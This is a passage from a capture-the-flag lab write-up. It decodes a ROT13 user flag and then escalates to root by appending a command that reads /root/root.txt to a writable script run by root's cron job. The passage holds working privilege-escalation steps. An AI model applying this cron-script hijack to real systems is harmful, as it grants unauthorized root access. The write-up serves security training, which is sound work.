 And we get the user flag (partially) but not in the exact state. It is also mentioned in the `user.txt` file that the flag has been rotated. So, we can go to CyberChef and rotate the flag using `ROT13`and get our desired flag!

8. What is the root flag?

We are already at the user level, so we just need to escalate ourselves to the root level in order to gain root-level access on the machine.

As a regular process, we can check the `/etc/passwd` file, run `sudo-l` and check `/etc/crontab`. We don't find any useful information from the passwd file and also we are not allowed to run any commands as `sudo` on this machine. But in `/etc/crontab` we can find a job running every minute that too with `root` as user:

```
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

We can further check and confirm that we have access to this `/var/www/.mysecretcronjob.sh` and also that we can modify it. So, now we can simply enter the command `cat /root/root.txt > /tmp/flag` in this shell file.

Also, we need to make a new file named `flag` in `/tmp` directory and change it's permissions so that root can write to it using the command: `chmod 660 flag`. We can wait for some time and then check the content of the `flag` file.

```
boring@kral4-PC:/tmp$ cd ..
boring@kral4-PC:/$ cd /tmp
boring@kral4-PC:/tmp$ touch flag
boring@kral4-PC:/tmp$ chmod 660 flag 
boring@kral4-PC:/tmp$ nano /var/www/.mysecretcronjob.sh 
```

In nano, we can add the command `cat /root/root.txt > /tmp/flag` and save it. Once, all these steps are performed, we can wait for a minute so that the cronjob gets executed and the flag gets printed to our /tmp/flag file. 
